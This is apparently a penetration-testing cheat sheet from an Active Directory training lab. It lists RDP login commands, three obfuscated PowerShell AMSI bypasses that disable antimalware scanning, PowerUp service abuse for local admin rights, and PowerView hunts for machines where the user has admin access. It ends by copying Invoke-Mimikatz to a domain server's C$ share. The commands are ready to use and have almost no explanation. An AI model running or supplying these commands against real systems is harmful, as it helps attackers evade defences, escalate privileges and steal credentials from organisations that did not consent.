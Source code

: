 # RDP ACCESS : 
``
xfreerdp /v:$IP /u:$USERNAME /p:$PASSWORD /size:1440x970 +clipboard 
rdesktop -u $USERNAM -p $PASSWORD -g 90% $IP
``

# BYPASS AMSI : 

* METHODE 1 : 
``
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
``

* METHODE 2 : 
``
$v=[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils'); $v."Get`Fie`ld"('ams' + 'iInitFailed','NonPublic,Static')."Set`Val`ue"($null,$true)
``

* METHODE 3 : 
``
Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )} $sess
``

# IMPORT POWERSHELL MODULES : 

example powerview.ps1 : `. .\powerview.ps1` or `import-module powerview.ps1` 

# PRIV ESC : 

1 - import powerup.ps1 : `. .\powerup.ps1`
2 - execute : `Invoke-allchecks`
3 - Abuse service to get local admin permissions with powerup : `Invoke-ServiceAbuse -Name 'ChangeToServiceNAme' -UserName '<domain>\<username>'`

# Find all machines on the current domain where the current user has local admin access :

* METHODE 1 (powerview) : ``Find-LocalAdminAccess -Verbose``

* METHODE 2 : 
``
. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
``

* METHODE 3 : 
``
. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
``

# Powerview Find local admins on all machines of the domain (needs admin privs) : `Invoke-EnumerateLocalAdmin -Verbose`

# Connect to machine with administrator privs : `Enter-PSSession -Computername <computername>`

# Copy item from attacker to another machine (admin) : ` Copy-Item .\Invoke-Mimikatz.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\`





